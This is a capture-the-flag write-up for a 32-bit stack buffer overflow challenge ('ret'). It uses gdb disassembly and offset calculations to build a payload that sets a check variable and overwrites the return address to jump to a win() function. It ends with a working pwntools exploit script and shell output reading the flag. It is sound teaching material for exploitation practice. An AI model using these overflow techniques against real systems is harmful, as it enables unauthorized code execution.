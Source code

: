 This program does not give us source code, so we will have to reverse it by hand. From the other challenges we looked at, the handleconnection() function was essentially the main() function since these are being hosted on a server.

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/ret$ gdb ./ret 
gdb-peda$ disass handle_connection
Dump of assembler code for function handle_connection:
   0x0804868b <+0>:	push   ebp
   0x0804868c <+1>:	mov    ebp,esp
   0x0804868e <+3>:	sub    esp,0x8
   0x08048691 <+6>:	call   0x8048644 <func>
   0x08048696 <+11>:	nop
   0x08048697 <+12>:	leave  
   0x08048698 <+13>:	ret    
End of assembler dump.
```

So looking at the assembly code for this, it looks like it just calls the func() function, then returns. Let's take a look at the func() function.

```
gdb-peda$ disas func
Dump of assembler code for function func:
   0x08048644 <+0>:	push   ebp
   0x08048645 <+1>:	mov    ebp,esp
   0x08048647 <+3>:	sub    esp,0x58
   0x0804864a <+6>:	mov    DWORD PTR [ebp-0xc],0x0
   0x08048651 <+13>:	sub    esp,0x8
   0x08048654 <+16>:	lea    eax,[ebp-0x4c]
   0x08048657 <+19>:	push   eax
   0x08048658 <+20>:	push   0x8048782
   0x0804865d <+25>:	call   0x8048500 <__isoc99_scanf@plt>
   0x08048662 <+30>:	add    esp,0x10
   0x08048665 <+33>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x0804866c <+40>:	je     0x8048688 <func+68>
   0x0804866e <+42>:	sub    esp,0xc
   0x08048671 <+45>:	push   0x8048785
   0x08048676 <+50>:	call   0x80484b0 <puts@plt>
   0x0804867b <+55>:	add    esp,0x10
   0x0804867e <+58>:	sub    esp,0xc
   0x08048681 <+61>:	push   0x0
   0x08048683 <+63>:	call   0x80484d0 <exit@plt>
   0x08048688 <+68>:	nop
   0x08048689 <+69>:	leave  
   0x0804868a <+70>:	ret    
End of assembler dump.
```

So this function appears to do a bit more than handle_connection(). From the looks of it, it establishes a variable at "epb-0xc" that we will call var1 and set it equal to the hex value 0x0.
Then it makes another variable located at "ebp-0x4c" that we will call var2. It then calls the scanf function and stores the input in var2 (we can tell that because it pushes var2 to the stack before it calls the scanf function).
Later on in the program it checks to see if var1 is equal to the hex value 0xdeadbeef. If it is equal, it jumps to func+68, where the function returns. if it doesn't, then the program just exits.
So looking at this, it appears that we will have to execute a buffer overflow attack using the scanf call to set var1 equal to "0xdeadbeef" so it will pass the if then check. But then what do we do? There is nothing in this function that seems like it would directly give us a flag. Let's see if there is a win function using gdb.

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/ret$ objdump -D ret | grep win
0804861b <win>:
```

And there is a win function. Since I knew what the function was called, I was able to just sort through all of the output using grep. But this win() function does look like a good place to return to, and since we pass the if then check we could hijack code execution flow by overflowing the return address with the win() function. But let's worry about passing the if then check first. The first step is to calculate the difference on the stack between var1 and var2.

Set a breakpoint for the if then (cmp) comman
```
gdb-peda$ b *func+33
Breakpoint 1 at 0x8048665
```

Now we run the program, and find the addresses.
```
gdb-peda$ r
Starting program: /Hackery/ctf/ucf/pwn/ret/ret 
00000000000000000000000000000000000000

Breakpoint 1, 0x08048665 in func ()
gdb-peda$ x $ebp-0x4c
0xffffceac:	'0' <repeats 38 times>
gdb-peda$ x $ebp-0xc
0xffffceec:	""
```

So we have everything we need to calculate the difference. We have the address of var1 (0xffffceec), and the address of var2 (0xffffceac).

```
0xffffceec - 0xffffceac = 64
```

So the difference is 64 bytes, which we can fill with 64 characters. Then we would just need to push the hex value 0xdeadbeef onto the stack in little endian so the program can read it properly. So the first overflow will look like this.

```
payload = "0"*64 + "\xef\xbe\xad\xde"
```

Now to calculate the distance to reach the return address, which is almost alway stored in the eip register for 32 bit elfs. To do this, you can just go back to your gdb session that should still be on the same breakpoint.

```
gdb-peda$ info frame
Stack level 0, frame at 0xffffcf00:
 eip = 0x8048665 in func; saved eip = 0x8048696
 called by frame at 0xffffcf10
 Arglist at 0xffffcef8, args: 
 Locals at 0xffffcef8, Previous frame's sp is 0xffffcf00
 Saved registers:
  ebp at 0xffffcef8, eip at 0xffffcefc
```

Now we have the address of the eip register, which is 0xffffcefc. Now we just need to subtract var1 (which is where we can start giving input) from that address to give us the distance.

```
0xffffcefc - 0xffffceac = 80
```

So the distance between our input and the eip register is 80 bytes. Keep in mind that we have to send all of this in the same scanf input, so the previous payload already takes up 68 bytest (64 bytes for the characters, plus 4 for 0xdeadbeef). So to reach 80, we only need to write 12 more bytes. After that we should be able to write directly to the eip register the address of the win() function in little endian, and that should hijack code excecution flow to execute the win() function. So here is the python exploit I made to do this.

```
#Import pwntools
from pwn import *

#Setup the remot connection
conn = remote("ctf.hackucf.org", 9003)

#Create the payload
payload = "0"*64 + "\xef\xbe\xad\xde" + "0"*12 + "\x1b\x86\x04\x08"

#Send the payload
conn.sendline(payload)

#Drop to an interactive prompt
conn.interactive(
```

And let's try the exploit...

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/ret$ python exploit.py 
[+] Opening connection to ctf.hackucf.org on port 9003: Done
[*] Switching to interactive mode
you Win!

$ ls
flag.txt
ret
$ cat flag.txt
flag{no_you_suck!:P}
```

And just like that, we pwned the elf. Also the reason why I knew to start typing in system commands, was a guess based upon the system call in win(), and previous ctf experience.

